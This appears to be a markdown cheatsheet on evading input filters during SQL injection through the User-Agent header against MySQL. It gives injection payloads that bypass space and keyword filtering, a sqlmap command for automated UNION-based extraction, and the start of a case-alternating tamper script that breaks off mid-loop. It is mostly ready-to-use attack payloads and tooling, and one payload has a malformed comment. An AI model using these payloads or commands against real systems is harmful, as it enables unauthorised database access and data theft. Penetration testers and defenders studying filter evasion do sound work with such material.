 &nbsp;

### SQLi Evasion Cheatsheet

Let's suppose we have find a valid SQL injection point in the *User-Agent* header and that the DBMS is MySQL. From here we will suppose different scenarios and describe how to bypass the filter.

&nbsp;

**CASE :  The application is filtering spaces**

In this case we can bypass the filter using comments:
```sql
User-Agent: '/**/UNION/**SELECT/**/@@version;#
```

Automation with sqlmap:

```bash
sudo python3 sqlmap.py -u "application_url" --dbms=mysql -p user-agent --random-agent --tamper=space2comment --technique=U --suffix=';#' --banner
```

&nbsp;

**CASE :  Spaces are filtered and bypassing using comments no longer works**

In this case we can use parenthesis to bypass the filter:

```sql
User-Agent: 'UNION(SELECT(group_concat(table_name))FROM(information_schema.columns)WHERE(table_schema=database()));#
```
This scenario is not easy to automate with sqlmap.

&nbsp;

**CASE :  MySQL's reserved words have been filtered**

Using ```RaNDom``` case does not help, as you can have, for example, something like ```InfoRMaTIon_ScheMa``` who will become ```InfoRMaTI_ScheMa```, as```on``` or ```ON``` is a valid reserved word.

A possible bypass:

```sql
User-Agent: ' UNiOn seLect @@versiOn;#
```
For a sqlmap automation it is necessary to write a simple tampering script that will use a different case for every letter:

```python
#!/usr/bin/env python
from lib.core.enums import PRIORITY

__priority__ = PRIORITY.NORMAL

def dependencies():
    pass

def tamper(payload, **kwargs):
    """
    Replaces each keyword a CaMeLcAsE VeRsIoN of it.

    >>> tamper('INSERT')
    'InSeRt'
    """

    retVal = str()

    if payload:
        for i in range(len(payload)):
            if (i % 2 == 0):
```